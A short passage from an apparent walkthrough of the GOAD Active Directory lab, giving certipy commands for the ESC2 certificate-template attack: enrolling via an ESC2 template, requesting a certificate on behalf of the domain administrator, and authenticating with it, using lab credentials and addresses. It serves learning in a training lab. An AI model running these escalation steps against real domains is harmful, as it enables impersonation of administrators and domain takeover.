 ![adcs_find_esc2_3.png](/assets/blog/GOAD/adcs_find_esc2_3.png)

- Query cert

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC2 -ca ESSOS-CA
```

- Query cert with the Certificate Request Agent certificate we get before (-pfx)

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
```
- Auth

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

![adcs_exploit_esc2.png](/assets/blog/GOAD/adcs_exploit_esc2.png)
